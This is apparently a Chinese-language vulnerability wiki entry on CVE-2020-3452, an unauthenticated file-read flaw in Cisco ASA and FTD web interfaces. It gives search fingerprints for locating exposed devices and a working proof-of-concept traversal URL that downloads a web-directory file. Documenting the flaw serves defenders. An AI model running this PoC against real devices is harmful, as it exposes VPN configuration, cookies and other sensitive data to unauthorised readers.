

# Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 影响版本

<a-checkbox checked>Cisco ASA设备</a-checkbox></br>


<a-checkbox checked>Cisco FTD设备</a-checkbox></br>





## 网络测绘

<a-checkbox checked>/+CSCOE+/</a-checkbox></br>

<a-checkbox checked>Cisco-ASA</a-checkbox></br>


## 漏洞复现

验证POC

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件


## 